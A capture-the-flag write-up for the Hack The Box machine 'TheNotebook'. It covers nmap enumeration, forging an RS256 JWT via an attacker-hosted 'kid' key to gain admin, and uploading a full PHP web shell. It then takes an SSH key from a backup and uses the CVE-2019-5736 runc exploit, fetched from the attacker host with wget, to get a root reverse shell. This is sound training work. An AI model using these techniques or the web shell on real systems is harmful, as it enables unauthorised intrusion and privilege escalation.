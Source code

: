 # The NoteBook @ Hackthebox

![image](https://user-images.githubusercontent.com/5285547/127499612-feb4ebdf-63f1-4899-b91f-14c7d161d146.png)

Link: https://app.hackthebox.eu/machines/TheNotebook

## Enumeration

### Nmap

```
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
1234/tcp  open     hotline
10010/tcp filtered rxapi

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: B2F904D3046B07D05F90FB6131602ED2
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
1234/tcp  open     http    SimpleHTTPServer 0.6 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/3.6.9
|_http-title: Directory listing for /
10010/tcp filtered rxapi
```

## Port 80

Let's check out this Note Keeper application from the nmap scan. 

![image](https://user-images.githubusercontent.com/5285547/127500008-0f75dbcf-22ac-429d-8fa7-1a0f7a1a892e.png)

Looks like a simple enough application, lets Register an account and enter the main app. 
I choose to register up as admin to see if an account existed first. 

Details
```
username: admin
password: admin
email: a@a.com
```

![image](https://user-images.githubusercontent.com/5285547/127500224-1fd6eed9-16fa-468c-93df-cde6e7e5bd18.png)

So I tried the old add a space to the admin name trick, surprisingly this worked. 

```
'admin '  # note the space after admin
```

Now logged in as user "admin " I can access notes and make a new note. 

![image](https://user-images.githubusercontent.com/5285547/127500550-21482f2b-035a-49cd-916e-6fd87c9a9e7a.png)

![image](https://user-images.githubusercontent.com/5285547/127500583-09d0c62f-1eda-48ca-b6f6-febffeddd1af.png)


I tested for vulnerabilities like xss, ssrf, crsf but didn't found anything.  
So I opened up Burp suite to check the login and auth responses. 
There I found what looked like a JWT token. 

## Jwt token (RS256)

![image](https://user-images.githubusercontent.com/5285547/127500957-9512cd21-9106-467f-a140-3c4c7aa75235.png)

Opening the token in jwt.io I can see the tokens details. 

![image](https://user-images.githubusercontent.com/5285547/127507282-88faa774-8e99-4a85-bfaa-1e4816843474.png)

Seeing the "privKey.key" and "RS265" I knew this was vunerable as we should be able to use our own  
certificate to authenticate the jwt token. 

Info: 
The algorithm RS256 uses the private key to sign the message and uses the public key for authentication

Let's generate a new private.key and use that to sign our jwt token with changed details.  
Doing so without the signing of the token will invalidate it. 

- Steps: 
  1. Generate a new private key
  ```
  openssl genrsa -out example.key 4096
  ```
  Credits: https://www.freecodecamp.org/news/openssl-command-cheatsheet-b441be1e8c4a/
  
  2. Start a web server in the directory with the example.key file in. 
  ```
  python3 -m http.server 80
  ```

  3. Change the values in the token. 

  ```
  change the "kid" value to your hosted file
  change the username to "admin" (without the space now)
  change the "admin_cap" to 1
  Add the example.key to the "private" field on jwt.io
  ```

  ![image](https://user-images.githubusercontent.com/5285547/127506901-2b9fc01a-9856-487a-ad51-1be068ef7152.png)

  4. Take the new token and reaplce it for the token on the webpage (cookies) 

  ![image](https://user-images.githubusercontent.com/5285547/127503185-0131b6b5-1410-4f06-8e88-2c6f488fff57.png)

   Now refresh the page to become the real admin and check out the new notes. 

  ![image](https://user-images.githubusercontent.com/5285547/127507069-16871b30-886d-429f-85c6-f6b095b25412.png)



One of the notes suggests that PHP can be executed and now we have access to upload files,  
let's try for a reverse shell. 

Upload a basic shell first. 

shell_web.php
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
![image](https://user-images.githubusercontent.com/5285547/127510079-39ebfe5a-4cac-4a44-bdf4-9ba296077934.png)

Uploading this and then viewing the file, we can now execute commands. 
Then move onto a better shell. 

![image](https://user-images.githubusercontent.com/5285547/127510331-a1fa62dc-551b-4f15-b38d-4d6f63e2b8c4.png)


## User

Looking around the system, I find a strange backup in the /var/backups folder

```
home.tar.gz
```

I copy it to the /tmp directory and have a look inside to find an ssh key for noah the user on the box. 

```
cp /home.tar.gz /tmp
cd /tmp
gunzip home.tar.gz
tar -xvf home.tar
cd home/noah/.ssh
cat id_rsa
```

Using the id_rsa key we can login as noah

```
nano noah_id_rsa
#Paste in the id_rsa you got
#close and save file

chmod 600 noah_id_rsa
ssh -i noah_id_rsa noah@10.10.10.230
```

![image](https://user-images.githubusercontent.com/5285547/127514317-703f435b-7c36-4f02-9e83-5af12cab84a8.png)

Then go ahead and get the user.txt flag! 

## Root

Looking at "sudo -l" shows something intresting!

![image](https://user-images.githubusercontent.com/5285547/127515744-fcfcd06d-c6da-4513-b21d-a23349c61d3f.png)

Looks like a docker escape or abuse in some way. Time for some research!

Docker version

![image](https://user-images.githubusercontent.com/5285547/127520414-391a0880-b237-45a0-8101-a7ed1736253b.png)

I looked the version up online and came across this poc for   
the exploit: https://github.com/Frichetten/CVE-2019-5736-PoC

Time to try it out. 

Setup. 
Have 2 ssh instances on the target machine for ease

```
wget https://raw.githubusercontent.com/Frichetten/CVE-2019-5736-PoC/master/main.go
nano main.go                            # Change the payload to what you want here. 
go build main.go
python3 -m http.server                  # host and serve the file to the target box. 
```

Change payload: 

![image](https://user-images.githubusercontent.com/5285547/127521487-5f6c01ef-3a93-4859-a4b4-3a2d15be3674.png)

Now host it then open the container on the attacking box. 

```
sudo /usr/bin/docker exec -it webapp-dev01 sh
```

Run the next commands to transfer the exploit to the target and get ready to run  
the next commands when you see the Success message. 

In container (attack box)

```
wget http://10.10.14.87:8088/main && chmod +x main
```

On another ssh connection, have this command ready. Plus a nc listner on port 9999

```
sudo docker exec -it webapp-dev01 /bin/sh
```

Now execute the command below, wait for the success message and then run the command on the other ssh session. 

Then catch the reverse shell from the cotainer on your machine to get root! 

![image](https://user-images.githubusercontent.com/5285547/127523183-07b4c79b-a0f0-4c32-9c8c-85fdd1890616.png)


I really enjoyed this box, I hope you did too!! 
